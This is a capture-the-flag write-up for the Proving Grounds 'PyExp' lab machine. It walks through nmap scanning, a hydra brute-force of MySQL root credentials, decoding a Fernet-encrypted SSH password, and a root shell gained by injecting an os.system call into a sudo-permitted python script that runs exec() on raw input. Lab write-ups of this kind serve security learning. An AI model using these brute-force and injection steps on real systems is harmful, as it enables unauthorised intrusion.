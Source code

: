 ```yaml
---
title: "Proving grounds Play: PyExp"
layout: post
date: 2023-09-17 02:00
categories: writeup
---
```


Proving grounds Play - PyExp CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 368
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsCompression, InteractiveClient, SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, FoundRows, ODBCClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: KyD%+GeFklYZ8G;3,#he
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Brute Force mysql credentials

```sh
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.204.118
```

Credentials obtained `root:prettywoman`.

![img](/assets/images/CTF/Proving_Grounds/PyExp/mysql.png)

Select database `data` and check the tables.

```sh
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.215 sec)
```

Extract data from the table `fernet`.

```sh
MariaDB [data]> SELECT * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.182 sec)

MariaDB [data]>
```

## Fernet Decode

![img](/assets/images/CTF/Proving_Grounds/PyExp/fernet.png)

### Decoded data

```text
Decoded:	lucy:wJ9`"Lemdv9[FEw-
Date created:	Mon Aug 10 21:02:44 2020
Current time:	Sun Sep 17 03:36:04 2023

======Analysis====
Decoded data:  80000000005f31b5f46ea5894d37472946181bd53963a2460a980488baa6608565581eedf20becb9ac9f84b38efdc1e7250175fe26efd78b22d4c6cbec382df4e764f262870172e1c8766995ac74bf4d8c33387fcff788ef2b
Version:	80
Date created:	000000005f31b5f4
IV:		6ea5894d37472946181bd53963a2460a
Cipher:		980488baa6608565581eedf20becb9ac9f84b38efdc1e7250175fe26efd78b22
HMAC:		d4c6cbec382df4e764f262870172e1c8766995ac74bf4d8c33387fcff788ef2b

======Converted====
IV:		6ea5894d37472946181bd53963a2460a
Time stamp:	1597093364
Date created:	Mon Aug 10 21:02:44 2020
```

Decoded data is a SSH credential.

SSH to user `lucy` using the password obtained in the above step.

**Initial Foothold Obtained**

## Privilege Escalation

Check permissions for the user.

![img](/assets/images/CTF/Proving_Grounds/PyExp/shell.png)

The user can run python2 as root without password and check the python code.

```py
uinput = raw_input('how are you?')
exec(uinput)
```

The input `uinput` in the above code is not sanitized, so an arbitrary command injection vulnerability is exploitable.

Run the python code as super user as below with the input as a OS command.

```sh
import os; os.system("/bin/dash")
```

![img](/assets/images/CTF/Proving_Grounds/PyExp/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).